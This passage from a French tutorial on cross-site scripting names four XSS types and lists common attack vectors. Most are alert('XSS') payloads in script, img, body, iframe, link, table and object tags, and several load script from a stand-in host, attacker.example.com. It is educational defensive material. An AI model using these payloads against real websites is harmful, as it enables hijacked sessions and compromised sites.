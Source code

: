 - XSS réfléchi (non persistant)
- XSS stocké (persistant)

De plus, il existe 2 autres techniques de cross-site scripting rencontrées moins fréquemment :

- XSS basé sur le DOM
- XSS stocké aveugle

Ces quatre types d'attaques XSS sont décrits dans des chapitres séparés.

#### **Vecteurs d'attaque XSS**

Les éléments de langage JavaScript couramment utilisés dans les charges utiles malveillantes pour réaliser des attaques de cross-site scripting comprennent :

```html
// la balise script
<script src=http://attacker.example.com/xss.js></script> <script> alert("XSS");</script>

// Les attributs `onload` et `onerror`
<img src=x onerror=alert("XSS")>
<body onload=alert("XSS")>

// Les attributs de la balise `<body>`
<body background="javascript:alert('XSS')">

// Les attributs de la balise `<img>`
<img src="javascript:alert('XSS');">
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">

// La balise `<iframe>`
<iframe src="http://attacker.example.com/xss.html">

// Les attributs de la balise `<input>`
<input type="image" src="javascript:alert('XSS');">

// La balise `<link>`
<link rel="stylesheet" href="javascript:alert('XSS');">

// Les attributs des balises `<table>` et `<td>`
<table background="javascript:alert('XSS')">
<td background="javascript:alert('XSS')">

// Les attributs de la balise `<div>`
<div style="background-image: url(https:// example. com('XSS'))">
<div style="width: "expression(alert('XSS'));">

// La balise `<object>`
<object type="text/x-scriptlet" data="http://attacker.example.com/xss.html">
```

#### **Conséquences potentielles d'une attaque de cross-site scripting**
